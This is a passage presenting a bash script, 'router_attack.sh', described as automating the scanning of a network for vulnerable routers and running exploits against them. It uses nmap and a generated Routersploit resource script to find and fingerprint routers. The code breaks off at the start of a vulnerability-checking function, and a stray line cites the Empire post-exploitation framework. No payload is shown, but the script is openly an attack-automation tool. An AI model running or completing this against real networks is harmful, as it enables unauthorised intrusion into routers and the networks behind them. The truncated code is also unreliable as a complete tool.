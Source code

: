 This script automates the process of scanning a network for vulnerable routers and executing appropriate exploits:

```bash
#!/bin/bash
# router_attack.sh - Automated router vulnerability scanning and exploitation

# Configuration
NETWORK="192.168.1.0/24"
OUTPUT_DIR="router_scan_results"
ROUTERSPLOIT_PATH="/usr/share/routersploit"
LOG_FILE="$OUTPUT_DIR/router_scan.log"

# Create output directory
mkdir -p "$OUTPUT_DIR"
touch "$LOG_FILE"

# Function to log messages
log_message() {
    echo "[$(date '+%Y-%m-%d %H:%M:%S')] $1" | tee -a "$LOG_FILE"
}

# Function to scan network for routers
scan_network() {
    log_message "Starting network scan for routers on $NETWORK"
    
    # Use nmap to identify potential routers
    log_message "Running initial Nmap scan..."
    nmap -sS -p 80,443,8080,8443,23,22 --open -oG "$OUTPUT_DIR/nmap_scan.gnmap" "$NETWORK"
    
    # Extract IP addresses with open ports
    cat "$OUTPUT_DIR/nmap_scan.gnmap" | grep "open" | cut -d" " -f2 > "$OUTPUT_DIR/router_candidates.txt"
    
    log_message "Found $(wc -l < "$OUTPUT_DIR/router_candidates.txt") potential targets"
}

# Function to identify router models
identify_routers() {
    log_message "Identifying router models..."
    
    # Create resource script for Routersploit
    cat > "$OUTPUT_DIR/router_scan.rsf" << EOF
use scanners/routers/router_scanner
set target file://$OUTPUT_DIR/router_candidates.txt
run
exit
EOF
    
    # Run Routersploit with resource script
    cd "$ROUTERSPLOIT_PATH"
    python3 rsf.py -r "$OUTPUT_DIR/router_scan.rsf" | tee "$OUTPUT_DIR/router_models.txt"
    
    # Extract identified router models
    grep -E "^\[\+\] \w+" "$OUTPUT_DIR/router_models.txt" | sed 's/\[\+\] //' > "$OUTPUT_DIR/identified_routers.txt"
    
    log_message "Identified $(wc -l < "$OUTPUT_DIR/identified_routers.txt") router models"
}

# Function to check for vulnerabilities
check_vulnerabilities() {
    log_message "Checking for known vulnerabilities..."
    
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire